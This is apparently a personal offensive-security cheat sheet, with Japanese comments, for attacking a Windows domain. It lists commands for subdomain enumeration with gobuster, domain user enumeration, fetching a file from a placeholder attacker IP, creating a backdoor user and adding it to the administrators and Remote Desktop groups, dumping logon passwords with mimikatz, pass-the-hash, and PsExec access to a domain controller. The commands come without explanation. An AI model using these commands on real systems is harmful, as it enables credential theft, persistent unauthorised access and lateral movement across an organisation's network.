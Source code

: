 #サブドメイン検索
gobuster dns -d <dnsサーバのIP> -t 25 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

net user /domain
nslookup <domain>

#Download(Windows)
wget http://<IP>/<File> -OutFile <File>

#アカウントを作成し、RemoteDesktopUsersに追加
net user test password /add
net localgroup administrators test /add
net localgroup "Remote Desktop Users" test /add
net group /domain
net user /domain

#mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM hash>
.\PsExec64.exe -accepteula
.\PsExec64.exe \\dc cmd.exe
